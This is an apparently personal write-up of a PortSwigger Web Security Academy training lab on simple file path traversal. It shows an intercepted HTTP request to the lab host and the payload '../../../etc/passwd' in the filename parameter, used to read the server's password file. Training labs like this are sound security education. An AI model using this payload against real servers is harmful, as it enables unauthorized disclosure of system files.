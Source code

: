 # Lab Writeup: File path traversal, simple case

URL: https://portswigger.net/web-security/learning-paths/server-side-vulnerabilities-apprentice/path-traversal-apprentice/file-path-traversal/lab-simple

## Description

This lab contains a path traversal vulnerability in the display of product images.

To solve the lab, retrieve the contents of the `/etc/passwd` file.

## Solution

1. Right click on one of the image then select "open image in new tab"
2. Intercept using Burp then send it to repeater. Here's the full intercepted request:

   ```
   GET /image?filename=11.jpg HTTP/2
   Host: 0afb003a03aced7184c9917b008300cc.web-security-academy.net
   Cookie: session=Vo711TeESx9TiUqXo11CY7ZbUalIPvbj
   Cache-Control: max-age=0
   Sec-Ch-Ua: "Google Chrome";v="131", "Chromium";v="131", "Not_A Brand";v="24"
   Sec-Ch-Ua-Mobile: ?0
   Sec-Ch-Ua-Platform: "Windows"
   Upgrade-Insecure-Requests: 1
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
   Sec-Fetch-Site: none
   Sec-Fetch-Mode: navigate
   Sec-Fetch-User: ?1
   Sec-Fetch-Dest: document
   Accept-Encoding: gzip, deflate, br
   Accept-Language: en-US,en;q=0.9
   Priority: u=0, i
   ```

3. From the intercepted request, change the filename to `../../../etc/passwd` then send. The file should be retrieved and the lab is solved.

   ![Simple Path Traversal](/assets/simple-path-traversal.png)

   ![Simple Path Traversal 1](/assets/simple-path-traversal-1.png)
